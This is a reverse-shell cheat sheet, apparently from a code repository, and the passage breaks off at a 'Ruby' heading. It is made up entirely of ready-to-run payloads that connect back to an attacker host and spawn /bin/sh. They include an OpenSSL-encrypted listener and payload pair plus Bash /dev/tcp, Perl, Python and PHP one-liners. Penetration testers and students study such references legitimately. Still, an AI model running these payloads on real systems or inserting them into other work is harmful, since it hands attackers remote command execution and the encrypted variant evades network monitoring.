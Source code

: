 # Reverse Shells

## Encrypted Reverse Shells with OpenSSL

Generate SSL certificate:

```sh
openssl req -x509 -quiet -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
```

Start an SSL listener on your attacking machine using ```openssl```:

```sh
openssl s_server -quiet -key key.pem -cert cert.pem -port 4444
```

Run the payload on target machine using ```openssl```:

```sh
mkfifo /tmp/s;/bin/sh -i</tmp/s 2>&1|openssl s_client -quiet -connect 127.0.0.1:4444>/tmp/s 2>/dev/null;rm /tmp/s
```

## Bash

```sh
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

## PERL

```sh
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

## Python

```sh
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## PHP

```sh
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

## Ruby
